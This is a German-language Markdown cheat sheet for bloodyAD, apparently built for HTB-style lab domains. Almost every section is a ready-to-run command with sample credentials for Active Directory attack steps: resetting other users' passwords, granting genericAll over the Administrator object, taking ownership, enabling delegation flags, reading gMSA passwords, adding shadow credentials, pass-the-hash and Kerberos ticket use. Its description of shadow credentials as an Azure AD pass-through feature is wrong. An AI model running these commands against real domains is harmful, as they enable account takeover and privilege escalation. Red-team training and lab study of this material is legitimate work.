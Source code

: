 
# 🩸 BloodyAD Cheatsheet

bloodyAD ist ein leistungsstarkes Kommandozeilen-Tool zur Interaktion mit Active Directory-Umgebungen. Es wurde speziell für offensive Sicherheitsanalysen entwickelt und ermöglicht das gezielte Abfragen, Modifizieren und Ausnutzen von AD-Objekten. Das Tool unterstützt Authentifizierung über Benutzername und Passwort sowie komplexe Angriffe auf Benutzerrechte und -eigenschaften.

Mit bloodyAD lassen sich u. a. Benutzer- und Gruppeninformationen auslesen, Berechtigungen setzen, Passwörter ändern, Shadow Credentials hinzufügen oder privilegierte Objekte manipulieren. Es basiert auf LDAP-Kommunikation und nutzt interne AD-Mechanismen wie ACLs, UAC-Flags und SID-History.

Im Unterschied zu reinen Abfrage-Tools bietet bloodyAD umfassende Schreib- und Kontrollmöglichkeiten – ideal für Red Teaming und Post-Exploitation-Szenarien. Dabei bleibt es CLI-basiert, leichtgewichtig und präzise steuerbar.

## weiterführende Informationen

https://github.com/CravateRouge/bloodyAD/wiki/User-Guide

https://www.thehacker.recipes/

<br>

## Inhaltsverzeichnis

- [Retrieve Domain Information](#-retrieve-domain-information)
- [Retrieve User Information](#-retrieve-user-information)
- [Get groupMembers](#-get-groupmembers)
- [Add User To Group](#-add-user-to-group)
- [Add New User](#-add-new-user)
- [Get Computers](#-get-computers)
- [Change Password](#-change-password)
- [Give User GenericAll Rights](#-give-user-genericall-rights)
- [Write Owner](#-write-owner)
- [Enable a Disabled Account](#-enable-a-disabled-account)
- [Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag](#-add-the-trusted_to_auth_for_delegation-flag)
- [ReadGMSAPassword](#-readgmsapassword)
- [Modify UPN](#-modify-upn)
- [Shadow Credentials](#-shadow-credentials)
- [Pass-The-Hash](#-pass-the-hash)
- [Kerberos Ticket](#-kerberos-ticket)

<br>

---

<br>

### 🧩 Retrieve Domain Information

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get domain
```

<br>

### 🧩 Retrieve User Information

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object administrator
```

<br>

### 🧩 Get groupMembers

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get groupMembers DEVELOPERS
```

<br>

### 🧩 Add User To Group

Zeigt alle Active Directory-Objekte an, auf die der Nutzer a.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer a.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get writable --detail
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add groupMember DEVELOPERS a.james
```

<br>

### 🧩 Add New User

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add user <Benutzername>
```

<br>

### 🧩 Get Computers

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get computers
```
<br>

### 🧩 Change Password

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set password $target_username $new_password
```

<br>

### 🧩 Give User GenericAll Rights

Gewährt dem Benutzer a.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann a.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass a.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add genericAll "CN=Administrator,CN=Users,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Write Owner

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer a.james. Dadurch erhält a.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set owner "CN=DEVELOPERS,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Enable a Disabled Account

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers j.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' remove uac "CN=j.calvus,OU=Users,DC=b2syn,DC=htb" -f ACCOUNTDISABLE
```

<br>

### 🧩 Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add uac "CN=service-account,OU=Services,DC=b2syn,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

### 🧩 ReadGMSAPassword

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=b2syn,DC=htb" --attr msDS-ManagedPassword
```
<br>

### 🧩 Modify UPN
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@b2syn.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=joerg,OU=Users,DC=b2syn,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=b2syn,DC=htb" userPrincipalName -v "joerg2@b2syn.htb"
```

<br>

### 🧩 Shadow Credentials

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=b2syn,DC=htb"
```

<br>

### 🧩 Pass-the-Hash

```zsh
bloodyAD --host <IP> -d <DOMAIN> -u <USER> -p :aad3b435b51404eeaad3b435b51404ee:5f2d3e5f9989f59a6e94cf08a823b2f2 -f rc4
```

<br>

### 🧩 Kerberos-Ticket

```zsh
export KRB5CCNAME=/tmp/krb5cc_0
bloodyAD --host <IP> -d <DOMAIN> -k -f aes256
```




